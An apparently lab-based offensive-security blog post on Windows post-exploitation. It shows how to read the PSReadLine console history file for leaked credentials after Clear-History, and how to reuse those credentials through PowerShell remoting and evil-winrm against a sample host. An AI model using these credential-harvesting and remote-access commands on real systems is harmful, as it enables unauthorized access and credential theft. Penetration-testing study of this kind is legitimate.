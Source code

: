 ```yaml
---
layout: post
title: Windows Target Profiling Powershell
titledate: 09/14/23
tags: ["infosec","offsec", "privesc", "powershell", "evil-winrm","win_enum"]
---
```


### most admins clear ps history with Clear-History but leave PSReadlines untouched

using powershell to retrieve information about how it has been used can be fruitful

    PS> Get-History

the command Clear-History will earse the powershell history from being visible by Get-History, but we can retrieve the cmd history in PSReadline

    PS> (Get-PSReadlineOption).HistorySavePath

reading the txt file output for this command can possilby disclose valuable information

    PS> type C:\Users\user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

If we get credentials from the output above we may be able to start a PS remoting session

    PS> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
    PS> $cred = New-Object System.Management.Automation.PSCredential("admin", $password)
    PS> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred

some commands like whoami may work inside the ps remoting session but if we are inside a nc bind shell there will likely be issues

    [CLIENTWK220]: PS C:\Users\admin\Documents> whoami

In this case we can use evil-winrm

    evil-winrm -i 192.168.50.220 -u admin -p "qwertqwertqwert123\!\!"

More evil-winrm commands here !!
